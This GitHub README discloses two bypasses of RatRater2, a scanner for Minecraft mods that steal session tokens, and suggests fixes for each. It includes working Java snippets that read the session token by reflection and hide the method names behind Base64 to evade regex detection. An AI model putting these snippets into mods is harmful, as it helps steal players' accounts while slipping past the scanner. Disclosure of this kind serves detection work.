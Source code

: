 # RatRater 2 Bypass

This Repository contains 2 bypasses for [RatRater2].

## ⚠️ Disclaimer

**This program is for educational purposes only, and I am not responsible for any of your actions!** \
**If you use this to create a rat then you're a discussing human being!**

## Explanation

Short explanation of booth bypasses.

### 1st bypass

Extracting token from `field_148258_c`.
(©Commandcracker I think I'm the first person who found this, so I claim this methode of extracting the token :D)

#### Example of bypass 1

```java
private static String getTokenFromField() {
    try {
        Field token_field = Session.class.getDeclaredField("field_148258_c");
        token_field.setAccessible(true);
        return (String) token_field.get(Minecraft.getMinecraft().getSession());
    } catch (NoSuchFieldException | IllegalAccessException ignore) {
        return "";
    }
}
```

### 2nd bypass

Hiding the Function/Field Name from the regex filter by for example
Encoding/Encrypting and Decoding/Decrypting or
by combining two variables to the name of one of:

```
func_111286_b (getSessionID)
func_148254_d (getToken)
field_148258_c (token)
```

and then using reflection to access it.

## Solution

Solution for detecting the bypasses.

### 1st bypass

The 1st bypass can be fixed by searching for `field_148258_c` and marking it as a sessionID grabber.

### 2nd bypass

The 2nd bypass is a bit harder to detect, it needs runtime analysis.
It would need to watch if one of the above-mentioned functions or the field is used.


#### Encoding Example of bypass 2 with func_111286_b (getSessionID)

```java
private static String getSessionIDFromGetSessionID() {
    try {
        byte[] decodedBytes = Base64.getDecoder().decode("ZnVuY18xMTEyODZfYg==");
        String decodedString = new String(decodedBytes);
        Method getSessionID = Session.class.getMethod(decodedString);
        return (String) getSessionID.invoke(Minecraft.getMinecraft().getSession());
    } catch (NoSuchMethodException | InvocationTargetException | IllegalAccessException ignore) {
        return "";
    }
}
```

#### Encoding Example of bypass 2 with func_148254_d (getToken)

```java
private static String getTokenFromGetToken() {
    try {
        byte[] decodedBytes = Base64.getDecoder().decode("ZnVuY18xNDgyNTRfZA==");
        String decodedString = new String(decodedBytes);
        Method getSessionID = Session.class.getMethod(decodedString);
        return (String) getSessionID.invoke(Minecraft.getMinecraft().getSession());
    } catch (NoSuchMethodException | InvocationTargetException | IllegalAccessException ignore) {
        return "";
    }
}
```

## Additional

Additional feedback/requests for [RatRater2].

### Classification: Quantiy (low confidence)

It goes away if the mod has moore then one class,
but I think it should check for the occurrence of empty and junk functions/Classes, and
it could also check if the file size is real.

### Discord websockets

I think the analyser should statically check for discord webhooks and 
in the runtime analysis for http requests to discord.

### SessionID often used

Many rat's use the word sessionID as a variable name or in a websocket message.
Searching for `Session ID` and `sessionID` (case-insensitive) and flagging it might catch some rats.

---

Booth bypasses can now be combined to create the ULTIMATE BYPASS jk :P

[RatRater2]: https://github.com/KTibow/RatRater2
